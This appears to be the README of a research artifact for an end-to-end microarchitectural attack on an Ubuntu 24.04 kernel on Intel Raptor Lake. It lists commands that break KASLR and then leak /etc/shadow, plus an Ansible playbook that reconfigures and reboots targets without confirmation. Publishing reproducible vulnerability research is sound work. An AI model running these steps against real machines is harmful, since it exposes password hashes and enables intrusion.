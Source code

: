 # End-to-End Attack

End-to-end attack against Ubuntu 24.04 kernel version 6.8.0-47-generic on an Intel Raptor Lake processor.


## Reproduce

The output is stored in [out](./out).

### Ansible

> [!WARNING]
> The ansible playbook modifies the target system without requesting confirmation to ensure default Linux mitigations are applied in GRUB kernel commandline. The target system will also be repeatedly rebooted between attack runs to ensure KASLR is re-randomized.

```bash
ansible-playbook run.yaml -e host=<hostname>
```

## Manual


Run the end-to-end attack
```bash
export experiment_core=2
export OUT_DIR=./out/manual/0/
mkdir -p "$OUT_DIR"

# build
make clean
make

# break KASLR
make run-kaslr CORE=$experiment_core | tee "$OUT_DIR/manual-kaslr.out"
# this will print KASLR offset: <kaslr_offset> with the value needed in the next steps

# leak /etc/shadow
make run-shadow KASLR_OFFSET=<kaslr_offset> CORE=$experiment_core | tee "$OUT_DIR/manual-shadow.out"
```

Benchmark the leak bandwidth.
```bash
# load the secret kernel module for benchmarking the leak bandwidth
make -C ../uarch-research-fw/kmod_secret/ install

make run-benchmark KASLR_OFFSET=<kaslr_offset> CORE=$experiment_core | tee "$OUT_DIR/manual-benchmark.out"
```


## Analyze

```bash
python3 analyze.py
```

The results are printed to the console.

### Expected Results

We expect the attack to work successfully in a high number of cases (>90%) with a leak rate of over 5KiB/s in the median.
